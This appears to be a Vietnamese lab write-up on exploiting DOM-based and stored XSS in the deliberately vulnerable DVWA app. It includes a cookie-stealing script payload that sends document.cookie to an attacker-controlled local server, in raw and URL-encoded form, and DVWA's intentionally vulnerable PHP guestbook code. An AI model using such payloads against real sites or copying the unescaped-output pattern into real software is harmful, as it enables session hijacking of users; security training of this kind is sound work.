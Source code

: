 # XSS DOM
## Client / Server side
## Pwned Time
![image](https://github.com/user-attachments/assets/2b6ebd0c-6c76-4903-9305-b13b16b73757)
*Mình sẽ khai thác XSS trực tiếp trên client-side khác với XSS reflected khai thác qua server-side*

![image](https://github.com/user-attachments/assets/b5823528-483f-4285-a890-82c4ebb2de35)
*Thử nhập 1 lệnh alert*
--> Kết quả:
![image](https://github.com/user-attachments/assets/752634e3-7aba-43c7-945d-07c6b05c5136)

Pwn time:
1. Tạo 1 local server qua python (port 8000)
![image](https://github.com/user-attachments/assets/6a79af35-58fe-4de8-b9d7-77fb0ad444a4)

2. Tạo payload độc, lừa user nhập vào
Payload gốc:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<script>window.location='http://127.0.0.1:8000/?cookie=' + document.cookie</script>
```
![image](https://github.com/user-attachments/assets/ee01b5a4-71a4-48cf-b0db-9b04016eaefc)
*Nó sẽ ra 1 trang ntn*

Encode payload:
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F127.0.0.1%3A8000%2F%3Fcookie%3Ddocument.cookie%3C%2Fscript%3E
```
3. Kết quả
Session id của người dùng hiện trong cửa sổ server của attacker
 ![image](https://github.com/user-attachments/assets/71026905-c57d-471c-81db-891455ac4e22)

# XSS Stored
## Code backend
```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```


